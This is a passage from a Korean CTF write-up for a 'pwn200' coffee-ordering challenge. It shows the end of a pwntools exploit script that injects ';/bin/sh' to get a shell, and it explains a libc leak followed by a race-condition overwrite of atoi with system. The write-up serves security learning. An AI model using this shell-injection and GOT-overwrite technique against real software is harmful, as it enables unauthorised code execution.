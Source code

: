 ```python
    p.readuntil("> ")

    p.sendline("3\0;/bin/sh")
    if "<<" in p.read(5):
        print p.readuntil("> ")
    else:
        log.info("shell drop")
        try:
            p.interactive()
        except:
            log.info("exploit done.")
            exit(1)

    sleep(1.5)

    p.sendline("4")
    p.readuntil("> ")
```

코드의 순서는,

1. french spresso가 아닌 커피를 주문 할때까지 재시작(재연결)을 한다.
2. arbitrary read 취약점을 통해 libc주소를 릭 한다.
3. race condition을 이용 해 atoi함수를 system으로 덮음으로서 exploit 한다!

라고 할 수 있습니다.



중요한점은 중간의 sleep(0.99)부분을 미세하게 조정 하며 espresso와 french spresso가 같은 인덱스에 번갈아가며 할당 되도록(race condition이니까) 해야 취약점을 트리거 할 수 있습니다.



## At least 8 hours...?

대회 12시간중 8시간을 이 문제만 잡았습니다 흑흑 ㅠㅠ
이제 나머지 다른 문제들은 다른 팀원들이 올려 줄것이라 믿고 pwn200 라이트업을 쓰러 가겠습니다

아디오스!

작성자 : http://314hack.tistory.com
